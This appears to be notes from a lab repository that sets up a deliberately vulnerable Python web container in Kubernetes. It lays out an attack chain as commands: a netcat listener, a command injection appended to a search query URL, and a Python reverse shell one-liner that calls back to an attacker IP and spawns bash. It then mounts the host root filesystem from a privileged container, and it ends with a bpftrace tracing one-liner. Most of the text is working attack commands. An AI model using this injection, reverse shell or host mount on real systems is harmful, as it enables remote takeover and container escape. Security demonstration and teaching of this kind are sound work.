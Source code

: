 
# run netcat to capture incomming reverse shell in a new terminal
nc -lvp <port>

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1

Use the docker ip as the <ip>

# Test exploit commands
Replace <ip> and <port> with your own values

## The exploit, run from a vulnerable input prompt
Run this appended to a vulnerable RCE shell command like the one on vulnerable-python/search?q=

### Using Python to initiate shell
Url encoding makes it annoying to accomplish the desired redirection of the file descriptors when trying to spawn the reverse shell. So we use the python way because we know for a fact that it has python available as it is a python container
With portforward to vulnerable-python deployment
```bash
localhost:5000/search?q=<something>||export RHOST="<IP>";export RPORT=<PORT>;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# Mounting rootFS in privilege container
``` bash
cat /proc/cmdline
> BOOT_IMAGE=/boot/vmlinuz-5.19.0-40-generic root=UUID=b4622f81-d047-4c8b-86ea-a7dcfb3dd58f ro quiet splash
findfs UUID=b4622f81-d047-4c8b-86ea-a7dcfb3dd58f
> /dev/sda3
mkdir /mnt-test && mount /dev/sda3 /mnt-test
cd /mnt-test/var/lib/docker

```

# Ebpf one liners with bpftrace
- list trace points
    bpftrace -l 'tracepoint:syscalls:sys_enter_*' 